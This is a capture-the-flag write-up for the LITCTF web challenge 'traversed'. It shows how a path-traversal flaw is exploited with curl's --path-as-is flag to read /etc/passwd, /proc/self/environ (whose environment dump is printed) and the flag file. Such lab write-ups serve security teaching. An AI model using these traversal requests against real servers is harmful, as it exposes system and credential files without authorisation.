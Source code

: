 ```yaml
---
title: traversed
date: 2023-12-10T13:37:49+02:00
author: zacian
tags:
  - Web
draft: false
---
```


## Description

I made this website! you can't see anything else though... right?? URL: http://litctf.org:31778/

## Solution

Now this challenge gave us a link to a web application which is vulnerable to LFI.

We an simply test that by reading `../../../../../../../../../etc/passwd`

Now puting that directly in the web URL would not work because the standard behavior of HTTP clients is to normalize the path portion of URLs by squashing dot segments as a typical filesystem would

So when using curl for solving this challenge we can specify the flag `--path-as-is` which helps to disable this behaviour 

```bash
curl --path-as-is http://litctf.org:31778/../../../../../etc/passwd
```

Source of Knowledge : https://httpie.io/docs/cli/--path-as-is

This will list our the passwd file. Now If you don't know, in linux most of the environment variable are saved in `/proc/self/environ` file. So now if we try to read that 

```bash
curl --path-as-is http://litctf.org:31778/../../../../../proc/self/environ
```

we get the following warning

```
Warning: Binary output can mess up your terminal. Use "--output -" to tell 
Warning: curl to output it to your terminal anyway, or consider "--output 
Warning: <FILE>" to save to a file.
```

So we can put together the following command

```
NODE_VERSION=16.20.2HOSTNAME=ac58ff1071dfYARN_VERSION=1.22.19BUN_INSTALL=/root/.bunHOME=/rootPATH=/root/.bun/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binPWD=/app
```

Now in the end we can see `/binPWD=/app`, this is often used by in or by developers for putting or testing their applications, like flask backend within docker.

Now if we try to cat the file `flag` in the `/app` directory we get our flag

```bash
curl --path-as-is http://litctf.org:31778/../../../../../app/flag.txt --output -
```

```
Flag : LITCTF{backtr@ked_230fim0}
```